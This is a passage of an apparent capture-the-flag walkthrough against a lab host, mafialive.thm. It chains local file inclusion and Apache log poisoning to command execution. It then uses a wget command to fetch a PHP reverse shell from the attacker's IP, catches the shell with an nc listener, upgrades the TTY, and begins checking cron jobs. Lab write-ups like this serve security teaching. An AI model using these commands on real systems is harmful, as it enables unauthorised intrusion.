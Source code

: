 ![image](https://user-images.githubusercontent.com/67465230/187168595-c4941a19-0482-4c45-b639-a1dc718a4fb5.png)

After forwarding the request and exiting of burpsuite and refreshing the page, let's verify using this command,

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//var/log/apache2/access.log&cmd=id
```

![image](https://user-images.githubusercontent.com/67465230/187168670-30834ab5-ccf2-4a4f-8f2a-3bcaca4d997d.png)

We can see our malicious code is working.

Now, we can gain foothold by using a php-reverse-shell and change the desired IP and port and put them in a file named shell.php.

Start the server using `python3 -m http.server` and setup a listener so that it can catch the connection when the shell triggers `nc -nvlp 4444`.

Now, let's upload our file on the webserver,

```bash
view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=wget http://10.9.0.226:8000/php-reverse-shell.php -O shell.php
```

![image](https://user-images.githubusercontent.com/67465230/187168718-95d5e87a-3dbc-4bae-bc2a-ed08f44a4987.png)

It got successfully uploaded.

Now, we should trigger the shell by visiting http://mafialive.thm/shell.php,

And we get caught a shell,

![image](https://user-images.githubusercontent.com/67465230/187168783-9a5905f0-0a84-4323-a1c6-5b3e751abdff.png)

Now, we need to make our shell fully functional,

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```

Navigating to /home directory and I found that there is only one user. Navigating inside the user directory and enumerating directory, we got our user.txt file,

![image](https://user-images.githubusercontent.com/67465230/187168979-44bc5576-f31a-447d-b038-02827750d293.png)

Now, since we are www-data user and we don't have privileges to run higher privileges commands, so we are going to elevate our privilege to Archangel user.

Looking carefully at the cronjobs, 

```bash
cat /etc/crontab
```
